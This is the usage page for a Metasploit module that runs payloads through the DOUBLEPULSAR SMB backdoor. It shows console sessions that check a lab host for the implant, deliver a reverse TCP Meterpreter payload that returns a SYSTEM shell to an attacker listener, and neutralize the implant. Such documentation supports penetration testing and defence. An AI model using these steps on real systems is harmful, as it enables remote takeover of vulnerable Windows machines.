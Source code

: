 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for SMB as popularly deployed by ETERNALBLUE.

While this module primarily performs code execution against the implant,
the `Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload (x64)
1   Neutralize implant
```

## Options

**DefangedMode**

Set this to `false` to disable defanged mode and enable module
functionality. Set this only if you're SURE you want to proceed.

**ProcessName**

Set this to the userland process you want to inject the payload into.
Defaults to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf exploit(windows/smb/smb_doublepulsar_rce) > check

[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[+] 192.168.56.115:445 - The target is vulnerable.
msf exploit(windows/smb/smb_doublepulsar_rce) >
```

Executing a payload:

```
msf exploit(windows/smb/smb_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf exploit(windows/smb/smb_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:445 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:445 - Encrypting shellcode with XOR key 0x33C6DC64
[*] 192.168.56.115:445 - Sending shellcode to DOUBLEPULSAR
[+] 192.168.56.115:445 - Payload execution successful
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-09-25 18:26:47 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf exploit(windows/smb/smb_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf exploit(windows/smb/smb_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:445 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf exploit(windows/smb/smb_doublepulsar_rce) >
```
